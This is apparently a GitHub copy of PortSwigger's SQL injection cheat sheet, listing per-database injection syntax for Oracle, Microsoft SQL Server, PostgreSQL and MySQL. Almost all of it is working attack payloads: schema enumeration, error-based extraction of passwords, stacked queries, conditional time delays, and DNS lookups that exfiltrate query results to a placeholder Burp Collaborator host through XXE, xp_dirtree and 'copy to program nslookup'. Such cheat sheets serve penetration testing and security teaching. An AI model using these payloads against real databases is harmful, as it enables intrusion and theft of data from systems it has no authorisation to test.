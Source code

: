 # SQL Injection Cheat Sheet

This SQL injection cheat sheet contains examples of useful syntax that you can use to perform a variety of tasks that often arise when performing SQL injection attacks.

Thanks PortSwigger 😘😘

## String Concatenation

You can concatenate together multiple strings to make a single string.

- **Oracle**: `'foo'||'bar'`
- **Microsoft**: `'foo'+'bar'`
- **PostgreSQL**: `'foo'||'bar'`
- **MySQL**: `'foo' 'bar'` (Note the space between the two strings)  
  `CONCAT('foo','bar')`

## Substring

You can extract part of a string, from a specified offset with a specified length. Note that the offset index is 1-based. Each of the following expressions will return the string `ba`.

- **Oracle**: `SUBSTR('foobar', 4, 2)`
- **Microsoft**: `SUBSTRING('foobar', 4, 2)`
- **PostgreSQL**: `SUBSTRING('foobar', 4, 2)`
- **MySQL**: `SUBSTRING('foobar', 4, 2)`

## Comments

You can use comments to truncate a query and remove the portion of the original query that follows your input.

- **Oracle**: `--comment`
- **Microsoft**: `--comment`  
  `/*comment*/`
- **PostgreSQL**: `--comment`  
  `/*comment*/`
- **MySQL**: `#comment`  
  `-- comment` (Note the space after the double dash)  
  `/*comment*/`

## Database Version

You can query the database to determine its type and version. This information is useful when formulating more complicated attacks.

- **Oracle**: `SELECT banner FROM v$version`  
  `SELECT version FROM v$instance`
- **Microsoft**: `SELECT @@version`
- **PostgreSQL**: `SELECT version()`
- **MySQL**: `SELECT @@version`

## Database Contents

You can list the tables that exist in the database, and the columns that those tables contain.

- **Oracle**: `SELECT * FROM all_tables`  
  `SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'`
- **Microsoft**: `SELECT * FROM information_schema.tables`  
  `SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'`
- **PostgreSQL**: `SELECT * FROM information_schema.tables`  
  `SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'`
- **MySQL**: `SELECT * FROM information_schema.tables`  
  `SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'`

## Conditional Errors

You can test a single boolean condition and trigger a database error if the condition is true.

- **Oracle**: `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN TO_CHAR(1/0) ELSE NULL END FROM dual`
- **Microsoft**: `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END`
- **PostgreSQL**: `1 = (SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/(SELECT 0) ELSE NULL END)`
- **MySQL**: `SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')`

## Extracting Data via Visible Error Messages

You can potentially elicit error messages that leak sensitive data returned by your malicious query.

- **Microsoft**: `SELECT 'foo' WHERE 1 = (SELECT 'secret')`
  
  > Conversion failed when converting the varchar value 'secret' to data type int.
- **PostgreSQL**: `SELECT CAST((SELECT password FROM users LIMIT 1) AS int)`
  
  > invalid input syntax for integer: "secret"
- **MySQL**: `SELECT 'foo' WHERE 1=1 AND EXTRACTVALUE(1, CONCAT(0x5c, (SELECT 'secret')))`

  > XPATH syntax error: '\secret'

## Batched (or Stacked) Queries

You can use batched queries to execute multiple queries in succession. Note that while the subsequent queries are executed, the results are not returned to the application. Hence this technique is primarily of use in relation to blind vulnerabilities where you can use a second query to trigger a DNS lookup, conditional error, or time delay.

- **Oracle**: Does not support batched queries.
- **Microsoft**: `QUERY-1-HERE; QUERY-2-HERE`  
  `QUERY-1-HERE QUERY-2-HERE`
- **PostgreSQL**: `QUERY-1-HERE; QUERY-2-HERE`
- **MySQL**: `QUERY-1-HERE; QUERY-2-HERE`

**Note**: With MySQL, batched queries typically cannot be used for SQL injection. However, this is occasionally possible if the target application uses certain PHP or Python APIs to communicate with a MySQL database.

## Time Delays

You can cause a time delay in the database when the query is processed. The following will cause an unconditional time delay of 10 seconds.

- **Oracle**: `dbms_pipe.receive_message(('a'),10)`
- **Microsoft**: `WAITFOR DELAY '0:0:10'`
- **PostgreSQL**: `SELECT pg_sleep(10)`
- **MySQL**: `SELECT SLEEP(10)`

## Conditional Time Delays

You can test a single boolean condition and trigger a time delay if the condition is true.

- **Oracle**: `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual`
- **Microsoft**: `IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'`
- **PostgreSQL**: `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END`
- **MySQL**: `SELECT IF(YOUR-CONDITION-HERE,SLEEP(10),'a')`

## DNS Lookup

You can cause the database to perform a DNS lookup to an external domain. To do this, you will need to use Burp Collaborator to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to confirm that a DNS lookup occurred.

- **Oracle**:
  
  (XXE) vulnerability to trigger a DNS lookup. The vulnerability has been patched but there are many unpatched Oracle installations in existence:
  `SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual`

  The following technique works on fully patched Oracle installations, but requires elevated privileges:
  `SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')`
- **Microsoft**: `exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'`
- **PostgreSQL**: `copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'`
- **MySQL**: 
  
  The following techniques work on Windows only:
  `LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')`  
  `SELECT ... INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'`

## DNS Lookup with Data Exfiltration

You can cause the database to perform a DNS lookup to an external domain containing the results of an injected query. To do this, you will need to use Burp Collaborator to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to retrieve details of any DNS interactions, including the exfiltrated data.

- **Oracle**: `SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual`
- **Microsoft**: `declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.BURP-COLLABORATOR-SUBDOMAIN/a"')`
- **PostgreSQL**:
  ```sql
  create OR replace function f() returns void as $$
  declare c text;
  declare p text;
  begin
  SELECT into p (SELECT YOUR-QUERY-HERE);
  c := 'copy (SELECT '''') to program ''nslookup '||p||'.BURP-COLLABORATOR-SUBDOMAIN''';
  execute c;
  END;
  $$ language plpgsql security definer;
  SELECT f();
  ```
- **MySQL**:
  
  The following technique works on Windows only:
  `SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'`
